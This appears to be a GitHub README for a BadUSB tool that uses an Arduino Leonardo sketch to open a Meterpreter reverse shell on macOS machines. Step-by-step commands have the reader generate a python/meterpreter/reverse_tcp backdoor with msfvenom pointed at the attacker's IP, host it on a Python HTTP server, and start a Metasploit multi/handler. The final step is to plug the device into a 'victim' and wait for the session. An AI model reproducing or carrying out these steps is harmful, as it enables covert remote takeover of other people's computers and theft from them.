 # Description
A simple sketch for handle MacOS meterpreter session using an Arduino Leonardo (atmega32u4)
# Demonstration
MacOS desktop:
![](https://github.com/cucurucuq/arduino_leonardo_macos_meterpreter/blob/main/badusb_macos.gif)
Kali:
![]()
# Usage 
We need to use Metasploit Framework and simple http server, you can use Kali Linux

1. Generate a backdoor file
```
$ msfvenom payload python/meterpreter/reverse_tcp LHOST=attacker's IP LPORT=8080 > /var/www/html/path/to/file
```
2. Run simple HTTP server 
```
$ cd /var/www/html/
$ python3 -m http.server 8080
```
3. Open Metasploit and start multi-handler
```
$ use exploit/multi/handler
$ set payload python/meterpreter/reverse_tcp
$ set LHOST attacker's IP
$ set LPORT 8080
$ run
```
4. Download .ino file and Arduino IDE
5. Update attacker's IP, host, port and path to backdoor file using Arduino IDE
6. Upload this sketch to your Arduino Leonardo using Arduino IDE
7. Put your BadUSB to victim and wait a capture of meterpreter session!
